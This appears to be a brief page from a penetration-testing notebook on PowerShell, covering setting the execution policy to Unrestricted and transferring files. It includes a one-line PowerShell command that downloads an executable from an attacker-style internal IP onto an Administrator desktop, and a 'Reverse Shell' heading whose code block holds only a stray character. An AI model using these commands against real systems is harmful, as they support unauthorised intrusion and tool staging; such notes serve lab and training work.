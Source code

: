 # PowerShell

## Enable PowerShell execution policy

* PowerShell maintains an execution policy that determines which type of PowerShell scripts \(if any\) can be run on the system. 
* The default policy is “Restricted”, which effectively means the system will neither load PowerShell configuration files nor run PowerShell scripts.
* To set an “Unrestricted” execution policy on our Windows client machine. Run Windows PowerShell application as Administrator.

```text
PS C:\WINDOWS\system32> Set-ExecutionPolicy Unrestricted
PS C:\WINDOWS\system32> Get-ExecutionPolicy
```

![](https://lh4.googleusercontent.com/5eEcCVnnBLRd4iYiO9ze7W9ow-L_EkITQKx0WQo3mPVeLasOK_lj2QkoU84hf5M4mTVY1ePTk214edOgr2d_EdpcXLwT1fRksnqihgTjFayRaPYbODWJtbKUfuI328_f-a3tL8aa)

## File Transfers

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.189/wget.exe','C:\Users\Administrator\Desktop\wget.exe')"
```

Also see:

{% page-ref page="../../collections/file-transfer.md" %}

## Reverse Shell

```text
d
```

Also see:

{% page-ref page="../../collections/reverse-shell/powershell.md" %}

